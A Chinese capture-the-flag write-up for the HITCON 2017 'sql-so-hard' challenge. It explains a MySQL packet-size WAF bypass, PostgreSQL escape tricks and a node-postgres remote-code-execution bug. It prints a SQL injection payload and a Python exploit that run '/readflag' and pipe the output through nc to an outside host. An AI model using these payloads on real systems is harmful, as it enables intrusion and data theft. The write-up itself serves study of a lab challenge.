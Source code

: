 最近实在是太多事情了Orz，所以没有及时更新复现。。(其实是偷懒

分享自制Dockerfile：[Github](https://github.com/Pr0phet/hitcon2017Dockerfile/tree/master/hitcon-ctf-2017/sql-so-hard) 

这道题涉及到的知识点：

- mysql的*max_allowed_packet*
- node-postgresql的一个RCE
- postgresql中语句返回值的问题

本题连接了两个数据库 一个是mysql--用作waf之后ip和payload记录，另外一个是postgresql--用作注册时记录用户名称和密码

因为主要是分析大大的payload为主，这里的考察点主要是node-postgresql近期的一个RCE漏洞(https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability)

这个洞详细的分析P神已经在博客贴出来了(https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)
并且复现环境p神也已经写了Dockerfile(https://github.com/vulhub/vulhub/tree/master/node/node-postgres)

简单来说就是客户端在获取表字段的时候因为转译不完全导致原本应该拼接在代码中的字段名被构造成了恶意代码传入了Function()这个类，这个类类似于PHP中的create_function，因为函数体可控 ,也就造成了命令执行。然后官方也有转译，但是官方的转译只是把**' --> \\'** ， 所以在前面加个\\就能逃逸出来（逃逸后的字符串就是 **\\\\'**）

所以这里的目的就很明确了 --> 通过postgresql的注入造成代码拼接命令执行
ß
但是会遇到两个问题：
1. 这里postgresql存在注入 但是首先得绕过一大堆关键字waf
2. 我们的ip不能在mysql留下记录 （这里的waf思路是如果有keyword则插入记录 后面再查询，如果有记录则拦截）

思路：
- 造成Mysql插入出错
提交一个很长很长的查询（默认包大小为16M），超出max_allowed_packet造成连接关闭，sql语句就不会执行 官方文档：![max_allowed_packet](http://upload-images.jianshu.io/upload_images/6949366-bb83cdbe939a1425.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
这样没有插入的话就不会查询到记录，即达到**绕过waf**的目的

- 或者使用postgreSQL支持将16进制的值转换成Unicode字符、并且可以自定义转译符的[特性](https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html)来将关键字全部替换掉, 从而达到**绕过waf**的目的, Eg: 国外大佬的[wp](https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/sql-so-hard.md)(其中空格使用\t绕过,自定义转译符为感叹号)
```
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```
- 构造RCE代码[2017-08-12 - code execution vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability)
目的是构造相应的字段名称造成RCE（详细原因请看P神关于漏洞的[分析](https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html)）
这里会出现新问题：
  - 不能控制insert的字段名，并且insert没有返回值(?)
  - 这里利用了分号切割sql语句，不能通过;闭合sql语句的方式构造RCE

这里阅读 [文档](https://www.postgresql.org/docs/9.5/static/dml-returning.html), postgresql允许在insert或者update后选择一个或多个字段返回, 所以在这里就有可控字段名了, 使用格式 ``insert into xx(aa,bb) values('cc','dd') returning  ee as ff;``
最后就是构造RCE中P神在博客中提到的
> 单双引号都不能正常使用，我们可以使用es6中的反引号
>``Function``环境下没有``require``函数, 不能获得``child_process``模块, 但是可以通过``process.mainModule.constructor._load``来代替require
> 一个fieldName只能有64位长度, 所以通过多个fieldName拼接来完成利用

最后是orange大大的exp:

```python
from random import randint
import requests

# payload = "union"
payload = """','')/*%s*/returning(1)as"\\'/*",(1)as"\\'*/-(a=`child_process`)/*",(2)as"\\'*/-(b=`/readflag|nc 10.188.2.20 9999`)/*",(3)as"\\'*/-console.log(process.mainModule.require(a).exec(b))]=1//"--""" % (' '*1024*1024*16)


username = str(randint(1, 65535))+str(randint(1, 65535))+str(randint(1, 65535))
data = {
            'username': username+payload, 
                'password': 'AAAAAA'
                }
print 'ok'
r = requests.post('http://10.188.2.20:12345/reg', data=data);
print r.content
```

参考:
https://github.com/orangetw/My-CTF-Web-Challenges
https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
https://github.com/vulhub/vulhub/tree/master/node/node-postgres
https://www.postgresql.org/docs/9.6/static/sql-syntax-lexical.html
https://www.postgresql.org/docs/9.5/static/dml-returning.html
https://github.com/sorgloomer/writeups/blob/master/writeups/2017-hitcon-quals/sql-so-hard.md
https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability